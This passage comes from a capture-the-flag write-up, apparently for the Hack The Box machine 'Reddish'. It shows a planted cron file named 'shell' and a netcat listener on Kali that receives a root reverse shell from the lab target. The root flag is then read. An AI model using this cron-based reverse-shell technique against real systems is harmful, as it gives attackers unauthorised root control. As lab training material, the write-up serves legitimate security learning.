-rw-r--r-- 1 root root 32 Aug 24 07:59 /mnt/etc/cron.d/shell
```

And then we start a listener on Kali and in a minute we get a shell.

```bash
$ rlwrap -cAr nc -nlvp 9008
listening on [any] 9008 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 34202
bash: cannot set terminal process group (5250): Inappropriate ioctl for device
bash: no job control in this shell

root@reddish:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Finally we have a shell and can get the root flag.

```bash
root@reddish:~# cat /root/root.txt
cat /root/root.txt
ee6dfa...
```
